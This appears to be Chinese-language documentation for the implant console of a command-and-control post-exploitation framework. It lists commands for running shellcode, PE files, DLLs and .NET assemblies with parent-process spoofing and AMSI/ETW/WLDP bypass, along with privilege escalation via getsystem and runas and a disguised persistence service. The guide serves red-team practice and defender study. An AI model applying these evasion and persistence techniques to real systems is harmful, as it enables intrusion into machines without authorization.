后渗透基本操作
implant console¶
Implant 控制台是后渗透阶段与目标会话交互的核心界面，用于下发指令、查看任务状态与接收执行结果，是操作 Implant 的主要入口。
进行后渗透操作之前，首先需要使用 session 命令查看需要连接的会话信息，然后选择对应的会话进行连接。
session

也可以使用 use 命令连接对应的会话，使用tab键补全时，也可以查看会话信息。
use [session-id]

在gui上，您需要在sessions界面点击对应session的命令行按钮，连接对应的session。也可以右击对应session，点击Interactive Session按钮连接。


控制台会完整呈现会话交互过程：已下发任务及下载时间清晰可查，系统信息、文件列表、权限操作反馈等命令输出实时展示，操作日志与状态信息（如模块加载、进程启动等）也会同步呈现，帮你全面掌握会话动态。
sessions¶
在 Implant 控制台的输入区与输出区之间，设有状态栏，实时显示当前会话关键信息。结合界面示例，默认包含：
- 系统基础信息：OS（如 windows x64 ）、Hostname（目标主机名，界面中可对应查看）、Process（进程名与 PID，如 malfic.exe 及 PID:43628 样式 ）、User（当前会话用户名 ）。
- 会话核心参数：Session ID（会话唯一标识，如 08d6c05a2152a79a3bde9d3b2a8f26f ）、Pipeline ID（通信管道标识，如 tcp ）、Listener Name（监听器名称，如 listener ）、Group Name（分组，如 default ）。
- 连通性状态：Implant 与服务端的 check-in 状态（如界面中 ALIVE DEAD 标识，反映会话活跃度与连通性 ）。
- 模块列表：显示Implant当前已加载的所有功能模块。
控制台命令记录¶
命令记录规则：无论通过图形界面（点击模块按钮）还是控制台输入下发的命令，都会在控制台窗口留存记录，方便追溯操作历史、排查执行问题（如命令是否下发成功、参数是否正确 ）。

查看基础命令列表¶
在 IoM 客户端或 GUI 控制台中，您将主要通过命令与 IoM 交互。建议先熟悉常用命令。在控制台中输入 help 可查看全部可用命令。
help
bof bypass cancel_task 等模块/命令按钮对应的功能 ），帮你快速定位所需操作。
查看命令详细帮助¶
想了解特定命令用法（参数、场景、示例 ），输入：
help [命令名称]

比如，查看 upload 命令帮助：
help upload
upload 功能描述、参数要求（本地文件路径、目标路径 ）、使用示例（如 upload local_file.txt /remote/path/)。

基础操作¶
会话管理¶
会话管理是Implant后渗透操作的基础，用于维护与目标系统的连接及切换会话上下文。
查看会话信息¶
info
初始化会话¶
init
切换会话¶
switch
恢复会话¶
recover
心跳与通信¶
Implant与IoM pipeline的通信机制设计，支持灵活的任务交互与状态同步。
测试连接¶
ping
轮询任务状态¶
polling [flags]
选项:
- --interval int: 自定义轮询间隔（单位：秒）
等待任务完成¶
wait [task_id1] [task_id2] [flags]
选项:
- --interval int: 检查任务状态的间隔（默认1秒）
配置管理¶
通过配置调整Implant的运行参数，优化隐蔽性与稳定性。
修改睡眠配置¶
sleep [interval/second] [flags]
选项:
- --jitter float: 抖动值（百分比），使睡眠间隔随机化，避免固定周期的流量特征
自毁¶
suicide
任务管理¶
任务操作¶
对Implant下发的任务进行全生命周期管理，包括查询、取消等操作。
列出任务¶
tasks
选项:
- -a, --all: 显示所有任务（包括已完成任务）
查询任务¶
query_task [task_id]
取消任务¶
cancel_task [task_id]
获取任务详情¶
fetch_task
在gui上，您需要右击对应的session行，选择show tasks按钮，即可在右侧显示tasks列表。


文件管理¶
管理通过Implant下载的文件，跟踪文件传输状态。
列出下载文件¶
files
模块管理¶
模块操作¶
通过加载模块扩展Implant的功能，按需启用特定后渗透能力。
列出模块¶
list_module
加载模块¶
load_module [module_file] [flags]
-
以下选项中至少需要指定一个。
-
--artifact、--modules、--3rd三类选项均通过服务端获取模块，其中：-
--artifact直接使用服务端已编译好的产物； -
--modules与--3rd会在请求时由服务端即时编译并下载到客户端加载。
-
-
--path提供了额外的本地打包加载方式。
选项:
- --path string: 模块文件的本地路径
- --artifact string: 使用服务端已有的artifact module 加载
- --bundle string: 加载指定名称的模块捆绑包
- --modules string: 指定模块列表（如 basic,extend）
- --3rd string: 加载第三方开发的模块
示例:
# 从指定路径加载模块
load_module --path sys.dll
# 基于服务端已编译好的 artifact 进行加载
load_module --artifact <artifact_name>
# 加载指定模块
load_module --modules execute_dll,sys_full
# 加载第三方插件(目前支持rem和curl)
load_modules --3rd rem
# 查看加载的模块
list_module
刷新模块¶
refresh_module
清除模块¶
clear
插件管理¶
加载可执行文件作为插件，实现重复调用与功能扩展。
加载插件¶
load_addon [flags]
选项:
- -n, --name string: 插件的别名（便于后续调用）
-m, --module string: 插件所属的模块类型
示例:
# 使用默认名称加载插件
load_addon gogo.exe
# 指定别名和模块类型
load_addon gogo.exe -n gogo -m execute_exe
列出插件¶
list_addon [addon]
执行插件¶
execute_addon [flags]
选项:
-
-a, --argue string: 欺骗进程参数（隐藏真实操作意图） -
-b, --block_dll: 阻止非微软签名的DLL注入到进程中 -
--etw: 禁用ETW（Event Tracing for Windows）跟踪 -
-p, --ppid uint32: 伪造父进程ID（提升隐蔽性） -
-n, --process string: 自定义执行插件的进程路径 -
-q, --quiet: 禁用输出信息（减少操作痕迹） -
-t, --timeout uint32: 执行超时时间（单位：秒）
示例:
# 执行不带参数的插件
execute_addon httpx 1.1.1.1
# 执行带参数的插件
execute_addon gogo.exe -- -i 127.0.0.1 -p http
执行带参数命令
当插件参数以短横线（-）开头时，必须用 -- 分隔，否则控制台会误判参数归属，导致插件执行失败或功能异常。
执行命令¶
基础执行¶
在目标系统中执行各类命令，获取输出或执行操作。
执行命令¶
run [cmdline]
示例:
# 执行简单命令
run whoami
# 执行带参数的命令
run gogo.exe -- -i 127.0.0.1 -p http
执行带参数命令
当插件参数以短横线（-）开头时，必须用 -- 分隔，否则控制台会误判参数归属，导致插件执行失败或功能异常。
静默执行¶
execute [cmdline]
示例:
# 执行简单命令
execute whoami
# 执行带参数的命令
execute gogo.exe -- -i 127.0.0.1 -p http
Shell 命令¶
shell [cmdline] [flags]
cmd /c），直接与目标系统的命令行交互。
选项:
- -q, --quiet: 禁用输出信息
PowerShell¶
powershell [cmdline] [flags]
选项:
- -q, --quiet: 禁用输出信息
高级执行¶
通过自定义加载器或注入技术执行文件，提升隐蔽性与绕过防御机制。
执行 PE 文件¶
execute_exe [exe] [flags]
选项:
-
--arch string: 目标架构（x64,x86） -
-a, --argue string: 欺骗进程参数 -
-b, --block_dll: 阻止非微软DLL注入 -
--etw: 禁用ETW跟踪 -
-p, --ppid uint32: 伪造父进程ID -
-n, --process string: 自定义进程路径 -
-q, --quiet: 禁用输出 -
-t, --timeout uint32: 超时时间（秒）
示例:
execute_exe gogo.exe -- -i 123.123.123.123 -p top2
执行带参数命令
当插件参数以短横线（-）开头时，必须用 -- 分隔，否则控制台会误判参数归属，导致插件执行失败或功能异常。
本地 PE 执行¶
execute_local [local_exe] [flags]
选项:
-
-a, --argue string: 欺骗进程参数 -
-b, --block_dll: 阻止非微软DLL注入 -
--etw: 禁用ETW跟踪 -
-o, --output: 禁用输出 -
-p, --ppid uint32: 伪造父进程ID -
-n, --process string: 自定义进程路径 -
-q, --quiet: 禁用输出
示例:
execute_local local_exe --ppid 1234 --block_dll --etw --argue "argue"
执行 DLL¶
execute_dll [dll] [flags]
选项:
-
--arch string: 目标架构（x64,x86） -
-a, --argue string: 欺骗进程参数 -
--binPath string: 自定义进程路径 -
-b, --block_dll: 阻止非微软DLL注入 -
-e, --entrypoint string: 自定义入口点函数 -
--etw: 禁用ETW跟踪 -
-p, --ppid uint32: 伪造父进程ID -
-n, --process string: 自定义进程路径 -
-q, --quiet: 禁用输出 -
-t, --timeout uint32: 超时时间（秒）
示例:
# 使用默认入口点
execute_dll example.dll
# 指定入口点
execute_dll example.dll -e entrypoint -- arg1 arg2
执行 Shellcode¶
execute_shellcode [shellcode_file] [flags]
选项:
-
--arch string: 目标架构（x64,x86） -
-a, --argue string: 欺骗进程参数 -
-b, --block_dll: 阻止非微软DLL注入 -
--etw: 禁用ETW跟踪 -
-p, --ppid uint32: 伪造父进程ID -
-n, --process string: 自定义进程路径 -
-q, --quiet: 禁用输出 -
-t, --timeout uint32: 超时时间（秒）
示例:
execute_shellcode example.bin
执行 .NET 程序集¶
execute_assembly [file] [flags]
选项:
-
--amsi: 绕过AMSI（Anti-Malware Scan Interface） -
-a, --argue string: 欺骗进程参数 -
-b, --block_dll: 阻止非微软DLL注入 -
--bypass-all: 同时绕过AMSI、ETW、WLDP -
--etw: 禁用ETW跟踪 -
-p, --ppid uint32: 伪造父进程ID -
--wldp: 绕过WLDP（Windows Lockdown Policy）
示例:
execute_assembly potato.exe "whoami"
内联执行¶
在当前Implant进程中直接执行文件（需注意稳定性风险）。
内联执行 PE¶
inline_exe [exe] [flags]
instability warning!!!
内联执行EXE可能导致Implant崩溃，建议仅在必要时使用。
选项:
-
--arch string: 目标架构（x64,x86） -
-n, --process string: 自定义进程路径 -
-q, --quiet: 禁用输出 -
-t, --timeout uint32: 超时时间（秒）
示例:
inline_exe hackbrowserdata.exe -- -h
内联本地执行¶
inline_local [local_exe]
选项:
-
-a, --argue string: 欺骗进程参数 -
-b, --block_dll: 阻止非微软DLL注入 -
--etw: 禁用ETW跟踪 -
-p, --ppid uint32: 伪造父进程ID -
-n, --process string: 自定义进程路径
示例:
inline_local whoami
内联执行 DLL¶
inline_dll [dll] [flags]
instability warning!!!
内联执行DLL可能导致Implant崩溃，建议优先使用牺牲进程执行。
选项:
-
--arch string: 目标架构（x64,x86） -
-e, --entrypoint string: 入口点函数 -
-n, --process string: 自定义进程路径 -
-q, --quiet: 禁用输出 -
-t, --timeout uint32: 超时时间（秒）
示例:
# 使用默认入口点
inline_dll example.dll
# 指定入口点
inline_dll example.dll -e RunFunction -- arg1 arg2
内联执行 Shellcode¶
inline_shellcode [shellcode_file] [flags]
instability warning!!!
内联执行shellcode可能导致Implant崩溃，需谨慎使用。
选项:
-
--arch string: 目标架构（x64,x86） -
-n, --process string: 自定义进程路径 -
-q, --quiet: 禁用输出 -
-t, --timeout uint32: 超时时间（秒）
示例:
inline_shellcode example.bin
内联执行 .NET 程序集¶
inline_assembly [file] [flags]
选项:
-
--amsi: 绕过AMSI -
--bypass-all: 绕过AMSI、ETW、WLDP -
--etw: 绕过ETW -
--wldp: 绕过WLDP
示例:
# 内联执行.NET程序集
inline_assembly --amsi potato.exe "whoami"
# 执行带参数的.NET程序集
inline_assembly --amsi potato.exe -- cmd /c whoami
特殊执行¶
针对特定场景的执行方式，如BOF、DLL 生成等。
BOF 执行¶
bof [bof]
bof 命令借助 COFF Loader 执行 BOF（Beacon Object File ）文件，实现轻量、隐蔽的功能扩展。该功能基于 https://github.com/hakaioffsec/coffee 重构，修复了 bundle 相关 bug，支持通过特定格式传递参数。
BOF 的参数需在 -- 分隔符之后传递，且每个参数必须以类型前缀加冒号（:）的形式开头。支持的参数类型如下：
-
str- 空终止字符串（ASCII 编码） -
wstr- 宽字符空终止字符串（Unicode 编码） -
int- 32 位有符号整数 -
short- 16 位有符号整数 -
bin- Base64 编码的二进制数据块
示例:
bof dir.x64.o -- wstr:"C:\\Windows\\System32"
DLL 生成¶
dllspawn [dll] [flags]
execute_dll功能类似但侧重动态生成执行环境。
选项:
-
--arch string: 目标架构（x64,x86） -
-a, --argue string: 欺骗进程参数 -
--binPath string: 自定义进程路径 -
-b, --block_dll: 阻止非微软DLL注入 -
-e, --entrypoint string: 自定义入口点 -
--etw: 禁用ETW跟踪 -
-p, --ppid uint32: 伪造父进程ID -
-n, --process string: 自定义进程路径 -
-q, --quiet: 禁用输出 -
-t, --timeout uint32: 超时时间（秒）
示例:
dllspawn example.dll
非托管 PowerShell¶
powerpick [args] [flags]
选项:
-
--amsi: 绕过AMSI -
--bypass-all: 绕过AMSI、ETW、WLDP -
--etw: 绕过ETW -
-s, --script string: PowerShell脚本路径 -
--wldp: 绕过WLDP
示例:
powerpick -s powerview.ps1 -- Get-NetUser
系统信息¶
基础信息¶
收集目标系统的基础信息，为后续操作提供上下文。
系统信息¶
sysinfo
当前用户¶
whoami
环境变量¶
env
子命令:
-
env set [env-key] [env-value]: 设置环境变量 -
env unset [env-key]: 取消设置环境变量
示例:
# 设置工具配置环境变量（如指定 dump 结果输出路径）
env set DUMP_OUTPUT "C:\Windows\Temp\hidden_dump.bin"
# 取消之前设置的 DUMP_OUTPUT 环境变量
env unset DUMP_OUTPUT
进程管理¶
查看与管理目标系统的进程，了解系统运行状态与进程关系。
进程列表¶
ps
终止进程¶
kill [pid]
示例:
kill 1234
网络信息¶
收集目标系统的网络连接状态，分析网络环境。
网络连接¶
netstat
在gui中，您可以右击对应session，点击Show Netstat按钮。点击后，在右侧会显示目标系统的网络连接信息。 

权限管理¶
调整与管理Implant的执行权限，获取更高操作权限或切换身份。
绕过保护¶
bypass [flags]
选项:
-
--amsi: 绕过AMSI（防恶意软件扫描接口） -
--etw: 绕过ETW（Windows事件跟踪）
示例:
bypass --amsi --etw
提升权限¶
getsystem
列出权限¶
privs
恢复原始令牌¶
rev2self
以其他用户身份运行¶
runas [flags]
选项:
-
--username string: 用户名 -
--domain string: 域名称 -
--password string: 用户密码 -
--path string: 程序路径 -
--args string: 程序参数 -
--use-profile: 加载用户配置文件 -
--use-env: 使用用户环境变量 -
--netonly: 仅使用网络凭据
示例:
runas --username admin --domain EXAMPLE --password admin123 --path /path/to/program --args "arg1 arg2" --use-profile --use-env
HTTP 请求¶
通过Implant发送HTTP请求，与外部服务交互或测试网络连通性。
request [url] [flags]
选项:
-
-d, --body string: 请求体内容 -
-H, --header stringArray: HTTP请求头（可多次指定） -
-X, --method string: HTTP方法（默认GET） -
-t, --timeout int: 请求超时时间（秒，默认30）
示例:
# 简单GET请求
request http://example.com
# POST请求
request -X POST -d "data" http://example.com
# 自定义头部
request -H "Host: example.com" -H "User-Agent: custom" http://example.com
服务管理¶
服务操作¶
service 命令用于对目标系统服务进行全生命周期管理，支持创建、查询、启动、停止及删除等操作，适用于 Windows 系统的服务持久化与状态控制。
service [子命令]
支持的子命令包括：
-
service create：创建新服务 -
service delete：删除指定服务 -
service list：列出所有服务 -
service query：查询服务状态 -
service start：启动服务 -
service stop：停止服务
service create¶
创建新系统服务，可指定服务名称、显示名称、执行路径、启动类型等参数。
service create [flags]
示例：
创建一个名为 updater_service 的自动启动服务，关联至系统更新程序：
service create --name updater_service --display "System Auto Updater" --path "C:\Windows\system32\svchost.exe -k netsvcs" --start_type AutoStart --error Normal --account "NT AUTHORITY\SYSTEM"
选项说明：
-
--name string：服务名称（必填），取值为自定义名称（如updater_service） -
--display string：服务显示名称，取值为描述性名称（如 "System Auto Updater"） -
--path string：可执行文件路径（必填），取值为服务关联的程序路径（如C:\path\to\service.exe） -
--start_type string：启动类型（默认AutoStart），取值范围包括BootStart（引导启动）、SystemStart（系统启动）、AutoStart（自动启动）、DemandStart（手动启动）、Disabled（禁用） -
--error string：错误控制级别（默认Normal），取值范围包括Ignore（忽略错误）、Normal（记录错误）、Severe（严重错误）、Critical（致命错误） -
--account string：运行账户（默认LocalSystem），取值包括LocalSystem（本地系统）、NetworkService（网络服务）、NT AUTHORITY\SYSTEM等。
service delete¶
永久删除指定服务，从系统中移除服务配置。
service delete [服务名称]
删除名为
updater_service 的服务：
service delete updater_service
service list¶
列出系统中所有服务的详细信息，包括名称、显示名称、启动类型、当前状态等。
service list
service query¶
查询指定服务的配置与状态（如启动类型、运行状态、执行路径等）。
service query [服务名称]
示例：
查询 Windows 更新服务（wuauserv）的状态：
service query wuauserv
service start¶
启动指定服务，使其进入运行状态。
service start [服务名称]
启动远程桌面服务（
TermService）：
service start TermService
service stop¶
停止指定的运行中服务，暂停其功能。
service stop [服务名称]
示例：
停止文件共享服务（lanmanserver）：
service stop lanmanserver
